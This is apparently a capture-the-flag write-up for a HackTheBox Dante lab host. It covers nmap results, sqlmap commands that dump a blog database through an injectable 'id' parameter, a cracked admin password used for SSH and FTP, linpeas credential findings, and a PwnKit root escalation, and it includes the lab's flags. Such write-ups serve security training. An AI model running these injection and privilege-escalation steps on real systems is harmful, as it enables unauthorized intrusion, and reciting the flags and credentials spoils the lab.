






# Host [172.16.1.12](http://172.16.1.12):

```
Nmap scan report for 172.16.1.12
Host is up (0.052s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.43 ((Unix) OpenSSL/1.1.1g PHP/7.4.7 mod_perl/2.0.11 Perl/v5.30.3)
443/tcp  open  ssl/http Apache httpd 2.4.43 ((Unix) OpenSSL/1.1.1g PHP/7.4.7 mod_perl/2.0.11 Perl/v5.30.3)
3306/tcp open  mysql?
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port21-TCP:V=7.92%I=7%D=9/18%Time=6327AADE%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,8F,"220\x20ProFTPD\x20Server\x20\(ProFTPD\)\x20\[::ffff:172\.1
SF:6\.1\.12\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20cre
SF:ative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creative
SF:\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3306-TCP:V=7.92%I=7%D=9/18%Time=6327AAD3%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GenericLine
SF:s,4B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GetRequest,4
SF:B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(HTTPOptions,4B,
SF:"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RTSPRequest,4B,"G
SF:\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20t
SF:o\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck,4B,"G\0\0\
SF:x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20to\x20
SF:connect\x20to\x20this\x20MariaDB\x20server")%r(DNSVersionBindReqTCP,4B,
SF:"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatusRequestT
SF:CP,4B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help,4B,"G\
SF:0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq,4B,"G\
SF:0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServerCookie
SF:,4B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TLSSessionReq
SF:,4B,"G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Kerberos,4B,"
SF:G\0\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,4B,"G\0
SF:\0\x01\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20to\
SF:x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,4B,"G\0\0\x0
SF:1\xffj\x04Host\x20'172\.16\.1\.100'\x20is\x20not\x20allowed\x20to\x20co
SF:nnect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.02 seconds
zsh: segmentation fault  proxychains nmap -sV 172.16.1.12
```

After conducting a directory bruteforce, I found a list of team members.:




I found the blog site which may have specific vulnerablities in ExploitDB so I will need to check this out. I need to investigate blogadmin site. Also check the ferox file saved to the Desktop.

```
http://172.16.1.12/blog/blogadmin/index.php
```

I found an admin login here:
```
http://172.16.1.12/blog/blogadmin/index.php?signIn=1
```

After running SQLmap on the url showing the "id" paramter (which isn't escaped), I found the following tables.:
```
proxychains sqlmap http://172.16.1.12/blog/category.php?id=0 --db --batch
```


I got the first flag.:
```
proxychains sqlmap http://172.16.1.12/blog/category.php?id=0 --dump -D flag
```



```
DANTE{wHy_y0U_n0_s3cURe?!?!}
```

The SQLmap scans are saved in the following directory.: /home/cl3al/.local/share/sqlmap/output/172.16.1.12/dump/blog\_admin\_db . From here, I cansee the admin user ben and an MD5 hash which I can easily crack with hashcat or John.:
```
ben,ben@dante.htb,NULL,NULL,NULL,NULL,442179ad1de9c25593cabf625c0badb7
```



I used [crackstation.net](http://crackstation.net) to crack the MD5 hashes found very quickly.:

I was then able to login via FTP and SSh with:
```
uname: ben
passwd: Welcometomyblog
```
I now found the flag in ben's directory!:
```
DANTE{Pretty_Horrific_PH4IL!}
```

I found another user by the name of "Julian".  I will try to see if perhaps I can get linpeas on there. After running linpeas, I found the following information:

Raw data:
```
══════════╣ Searching passwords in config PHP files
'adminPassword' => "21232f297a57a5a743894a0e4a801fc3",
$dbPassword = '';
$dbUsername = 'root';
'adminPassword' => "21232f297a57a5a743894a0e4a801fc3",
$dbPassword = '';
$dbUsername = 'root';
// define('DATABASE', 'mssql'); 
define('DATABASE', 'mysql');
define('DATABASE', 'mysqli');
if($passwd === NULL) $passwd = ini_get("mysql.default_password");
if($passwd === NULL) $passwd = ini_get("mysqli.default_pw");
define('TABLE_USER',      'mdb_querytool_user');
        'password' => $_ENV['MYSQL_TEST_PASSWD'],
        'password' => $_ENV['PGSQL_TEST_PASSWD'],
$cfg['Servers'][$i]['AllowNoPassword'] = true;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['ShowChgPassword'] = true;
```

Vulnerabilities (CVEs):
```

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Potentially Vulnerable to CVE-2022-2588
```

This CVE is the PNWkit vulnerability which I used the POC exploit tool for. I successfully gained privesc to root and got the last flag for this machine!:
```
DANTE{sudo_M4k3_me_@_Sandwich}
```
